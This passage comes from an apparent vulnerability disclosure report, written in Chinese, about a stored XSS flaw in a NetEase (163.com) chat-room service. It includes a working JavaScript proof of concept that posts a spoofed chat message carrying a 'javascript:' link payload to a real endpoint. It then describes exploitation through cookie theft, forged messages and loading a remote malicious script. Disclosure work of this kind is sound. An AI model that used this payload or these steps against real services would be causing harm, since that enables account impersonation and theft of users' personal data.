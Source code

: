         // 发送xss payload
        const startSendLinkMessage = async function () {

            // 链接，设置fromUid为攻击者的UID
            var payload_json = { "serverId": "0149881871", "channelId": "1459515", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": { "attachType": "link", "attachData": { "title": "点击惊喜", "url": "javascript://%0aalert(\"xss\");var a=\"163.com\";", "desc": "XXXXXXXSSSSSSSSS", "icon": "https://baidu.com/p.png" } }, "contentType": "SHARE" }

            var headers = setHeaderDs(JSON.stringify(payload_json))
            res = await myPostFetch('https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg', headers, payload_json)
        }
        startSendLinkMessage()


8. 该XSS的利用

    - 首先是窃取cookie，可能会带有邮箱和手机号信息
    
        ![cookie](/assets/images/cookie.png)
    
    - 伪造发送消息等
    
        前文通过脚本发送合法请求，已经足够证明攻击者能伪造用户发送消息。只需要把该脚本上传到https服务器，并且通过xss payload下载恶意脚本，能够执行更加复杂的逻辑。

### Proof
请提供截图或视频

    POC视频链接如下：链接：https://pan.baidu.com/s/1aOqi-sLgA5XJIw3FUPiTIw 提取码：1314
